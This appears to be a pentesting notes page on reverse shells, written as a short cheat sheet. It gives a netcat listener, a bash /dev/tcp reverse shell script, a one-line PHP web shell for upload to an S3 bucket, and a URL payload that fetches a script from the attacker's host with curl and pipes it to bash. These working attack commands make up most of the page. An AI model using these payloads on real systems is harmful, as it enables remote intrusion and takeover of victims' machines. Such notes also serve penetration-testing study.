 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Reverse Shell

A reverse shell is a technique used to gain remote access to a victim's system by making the target machine initiate a connection back to the attacker. Unlike a traditional shell, this allows the target to "call back" to the attacker’s machine.&#x20;

Reverse shells are commonly used in penetration testing and hacking scenarios to maintain access, control compromised systems, and perform further exploitation.

Here we have some scripts that can be used to create a reverse shell for various scenarios:

## <mark style="color:orange;">Basic bash script</mark>

* Establish a listening port on the host machine with Netcat

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc -nlvp $port     #An arbitrary port 
```
{% endcode %}

***

* Use a script to send the remote shell to the listening port

{% code title="RevShell.sh" overflow="wrap" lineNumbers="true" %}
```sh
#!/bin/bash

bash -i >& /dev/tcp/$ip/$port 0>&1
```
{% endcode %}

{% hint style="info" %}
* `$port`is the port listening with _netcat_ and `$ip` the host machine's IP
* If you are using a VPN `$ip` is the IP assigned by the VPN instead of the host IP
* Remember also to give execution permissions to the script
{% endhint %}

## <mark style="color:orange;">For awscli</mark>

* Check if we have remote command execution

{% code overflow="wrap" lineNumbers="true" %}
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php #Upload this file in the bucket
http://$url/shell.php?cmd=id #In browser. If there's a response, we have access
```
{% endcode %}

***

* Create a bash file for the reverse shell

{% code overflow="wrap" lineNumbers="true" %}
```bash
#!/bin/bash 
bash -i >& /dev/tcp/$myip/$portcat 0>&1 #Arbitrary port
```
{% endcode %}

***

* Listen with netcat

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc -nvlp $portcat
```
{% endcode %}

***

* Create a server with python

{% code overflow="wrap" lineNumbers="true" %}
```bash
python3 -m http.server $port #Must be created at the same place where the reverse shell script is
```
{% endcode %}

***

* Use the `curl` command from the local server to get the reverse shell file and pass it to the bash of the machine

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/shell.php?cmd=curl%20$myip:$portpy/$shfile|bash
```
{% endcode %}
